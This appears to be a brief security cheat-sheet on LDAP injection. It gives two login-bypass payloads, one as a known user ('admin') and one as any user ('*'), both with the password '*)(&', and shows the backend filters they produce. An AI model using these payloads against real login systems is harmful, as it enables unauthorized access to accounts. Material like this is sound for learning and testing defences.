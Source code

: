 #ldapi #ldap

## Known User
Injection
```
$login = admin
$password = *)(&
```

Backend
```
(&(uid=$login)(userPassword=$password))
(&(uid=admin)(userPassword=*)(&))
```

## Any User
Injection
```
$login = *
$password = *)(&
```

Backend
```
(&(uid=$login)(userPassword=$password))
(&(uid=*)(userPassword=*)(&))
```


